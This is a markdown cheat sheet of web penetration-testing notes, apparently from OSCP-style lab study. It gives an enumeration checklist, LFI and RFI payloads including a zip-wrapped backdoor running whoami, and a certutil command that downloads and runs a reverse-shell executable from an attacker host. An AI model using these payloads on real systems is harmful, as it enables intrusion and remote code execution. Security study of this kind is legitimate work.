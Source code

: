 - [Checklist](#checklist)
- [Default Webroot](#default-webroot)
- [Local File Inclusion](#local-file-inclusion)
- [Remote File Inclusion](#remote-file-inclusion)
- [Curl](#curl)
- [View Source Code](#view-source-code)
- [Gobuster](#gobuster)
- [Feroxbuster](#feroxbuster)
- [File Upload Vulnerability](#file-upload-vulnerability)
- [Java Code Execution](#java-code-execution)

# Checklist
- [ ] NMAP scripts
  -  nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.190
- [ ] curl -IL https://www.inlanefreight.com
- [ ] whatweb 10.10.10.121
- [ ] View Source Code
- [ ] Gobuster
  - admin portal?
  - file upload vuln?
  - plugin page?
- [ ] wfuzz
- [ ] Check README
- [ ] Did we run exiftool against anything found?
- [ ] DNS enumeration
- [ ] Authentication: cewl -d 2 -m 4 http://10.129.200.170/nibbleblog/
- [ ] File upload vulnerability
- [ ] Discover webroot
- [ ] Robots.txt
- [ ] Local File Inclusion
- [ ] Remote File Inclusion
- [ ] SQLi



# Default Webroot
```bash
Apache	/var/www/html/
Nginx	/usr/local/nginx/html/
IIS	c:\inetpub\wwwroot\
XAMPP	C:\xampp\htdocs\
```


# Local File Inclusion
- Click stuff to find out if we can find this ?file=, ?page=
- We could also utilize zip://, file:// php://
  - ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami

![image](https://github.com/nuricheun/OSCP/assets/14031269/c80aca68-e70d-42e5-a1ca-dd124e75324f)

**Windows**
- ?page=C:/Windows/System32/drivers/etc/hosts
- ?page=../../../../../../../../Windows/System32/drivers/etc/hosts
- ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami

**Linux**


# Remote File Inclusion
- ?page=http://192.168.45.208/somefile.php


# Curl 
- When there are URLs pointing at something suspicious, change method (from GET to POST) with curl can give you clear answers
```bash
curl -X POST -d '{"user":"clumsyadmin", "url":"http://192.168.45.175:443/list-running-procs"}' http://192.168.163.99:33333/list-running-procs
```


# File Upload Vulnerability
```bash
# always check root after uploading something
http://example.com/uploadedsomething.txt
http://example.com/upload/uploadedsomething.txt
http://example.com/uploads/uploadedsomething.txt


```


# Java Code Execution (C:/Windows/Temp/)
```bash
certutil -urlcache -f http://192.168.45.176/rev80.exe C:/Windows/Temp/rev80.exe
C:/Windows/Temp/rev80.exe
```
